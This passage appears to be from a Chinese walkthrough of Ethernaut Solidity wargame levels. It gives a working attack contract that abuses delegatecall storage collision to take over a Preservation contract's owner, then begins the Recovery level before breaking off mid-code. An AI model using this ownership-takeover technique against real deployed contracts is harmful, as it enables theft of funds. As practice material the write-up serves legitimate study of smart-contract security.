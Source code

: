第7关 Delegation 的知识点

`delegatecall`是上下文调用，相当于把代码复制过来在当前的环境执行，`storage` 等数据均使用自己的，这就使得某些访存操作会错误地处理对象

调用`LibraryContract`的`setTime`时，修改的实际上是`Preservation`合约`storage`中对应位置的slot0，也就是`timeZone1Library`

可以把这个`timeZone1Library`变为攻击合约的地址，这样第二次调用`setTime`时，调用的是攻击合约内的`setTime`，修改`owner`即可

```js
pragma solidity ^0.6.0;

interface Preservation {
  function setFirstTime(uint _timeStamp) external;
  function setSecondTime(uint _timeStamp) external;
}

contract Attack {
  
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;  

  Preservation instance;
  constructor(address _instance) public {
    instance = Preservation(_instance);
  }

  function attack_1() public {
    instance.setFirstTime(uint(address(this)));
  }
  function attack_2() public {
    instance.setFirstTime(1);
  }
  function setTime(uint _time) public {
    owner=tx.origin;
  } 
}
```

先调用 attack_1，再调用 attack_2

调用 attack_2 的时候发生 out of gas 错误，可能是调用的次数有点多，gas估计错误，交易的时候要增大gas限制

## Recovery

合约创建者构建了一个非常简单的代币工厂合约。 任何人都可以轻松创建新代币。 在部署第一个代币合约后，创建者发送了 0.001 以太币以获得更多代币。 

此后，他们丢失了合约地址。 如果您可以从丢失的合约地址中恢复（或移除）0.001 以太币，则此 level 将完成。

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
```